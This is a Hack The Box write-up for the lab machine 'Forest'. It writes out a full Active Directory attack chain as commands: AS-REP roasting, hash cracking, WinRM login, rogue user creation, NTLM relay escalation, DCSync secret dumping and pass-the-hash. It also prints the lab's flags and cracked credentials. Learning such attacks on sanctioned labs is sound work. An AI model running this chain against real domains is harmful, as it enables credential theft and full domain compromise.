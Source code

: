 ```yaml
---
title:  "Hack The Box - Forest"
date:   2020-03-19
categories: [ctf]
tags: [linux, Active Directory, Kali, Pentest, writeups, ctf]
---
```

My write-up / walktrough for Forest on Hack The Box. 

## Quick summary
Today, Forest got retired and I'm allowed to publish my write-up. Forest is my second box on HTB, so still pleeeeenty of new things to learn for me ;-)

I added the box to `/etc/hosts` as `forest.htb` with it's ip `10.10.10.161`

![forest](/images/forest/forest.png)

## Enumeration
I started with 
`nmap -sV -p 1-10000 -T5 forest.htb` and revealed plenty of open ports. Well, as the box-name allready mentioned, there is an Active Directory running on it.

![nmap](/images/forest/nmap.png)

So let's try to gather some usernames. I used `legion`, added `forest.htb` as the only host to it and let it run. After a while, `smbenum` gave me the following user:

```
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

## ASRepRoast
So let's look if one ore more users don't need preauthentication. I saved just the usernames in a textfile `user.txt`

![usernames](/images/forest/usernames.png)

and ran `sudo python3 /usr/local/bin/GetNPUsers.py -dc-ip 10.10.10.161 -no-pass -usersfile user.txt htb.local/
` from impacket. (a great toolset, btw)

![asreproast](/images/forest/asreproast.png)
Yeah! There is the user `svc-alfresco` where I could gather a ticket of.

`GetNPUsers.py` can create a well formated file right away by passing the parameter `-format hashcat -outputfile userhash.txt`

## crack the hash

Done so, I could afterwards crack the hash with `hashcat -m18200 --force userhash.txt  /usr/share/wordlists/rockyou.txt` which gives me the credentials `svc-alfresco:s3rvice`

![hashcat](/images/forest/hashcat.png)

## Own the user...

this credentials, I could use to establish a connection with winrm (`evil-winrm -i forest.htb -u svc-alfresco -p s3rvice
`) and grab the user-flag `e5e4e47ae7022664cda6eb013fb0d9ed`.

![userflag](/images/forest/userflag.png)

## Privilege escalation

Tried with `winPEASany.exe` to escalate privilegies. The command
`evil-winrm -i forest.htb -u svc-alfresco -p s3rvice -e .` , `menue` and `Invoke-Binary winPEASany.exe` started the process to scan forest.htb.local, but apart of some missconfiguration (disabled firewall and so on) this was a loose end to me.

### Bloodhound
I then took a deeper look into the Active Directory by gathering and displaying data for `Bloodhound` 

![bloodhound](/images/forest/bloodhound.png)

Done so, I noticed that `svc-alfresco` has the right to create user in the Active Directory. May be, I can create a user and escalate it's privilege?

![accoutoperator](/images/forest/accountoperator.png)

### User creation
To do that, I reconnected with `evil-winrm -i forest.htb -u svc-alfresco -p s3rvice` to the victim and executed there the following commands:
``` cmd
net user fab asdfasdf81 /ADD /DOMAIN
net group "Exchange Trusted Subsystem" fab /add
net group "Exchange Windows Permissions" fab /add 
```

### Dump the secrets
Now, I could try to escalate the privilegies of the new user `fab` so that I afterwards could start a `dcsync-attack`.Therefore, I used the tools `secretsdump.py` and `ntlmrelayx.py`, both from `impacket`.

First, I had to start `sudo python3 /usr/local/bin/ntlmrelayx.py -t ldap://10.10.10.161 --escalate-user fab` and then authenticate the user by inserting the credentials on the local server. 
![ntlmrelay](/images/forest/ntlmrelaywerver.png)

![ntlmweb](/images/forest/ntlmrelayweb.png)

This started allready the necessary privilege escalation, so that I afterwards could make use of the `dcsync-attack` by executing `sudo python3 /usr/local/bin/secretsdump.py HTB.LOCAL/fab:asdfasdf81@10.10.10.161 -just-dc`

![secretdump](/images/forest/secretdump.png)

## Root the box

All I had to do now, was to execute a `pass the hash attack` which could be done again with `evil-winrm`:

`evil-winrm -i forest.htb -u administrator -H 32693b11e6aa90eb43d32c72a07ceea6` 

and then grab the root-flag `f048153f202bbb2f82622b04d79129cc` on admins desktop.

![root](/images/forest/root.png)

## Conclusion 
- still a lot to learn about Kerberos and Active Directory
- not sure, how *noisy* my attacks were?
- should once (or more) dig into the scripts I'm using, for better understandig of attack and defense
- box was a great pleasure :-)
- lost a lot of time due the fact, that the box got messed up in a way. Next time reset the box instead of retrying, retrying retrying....
- and finally: **Thanks** and respect to [Hack The Box](https://www.hackthebox.eu/) for providing this great box and to [tundr4](https://www.hackthebox.eu/home/users/profile/158160) for helping me out as I got stuck with privilege escalation.

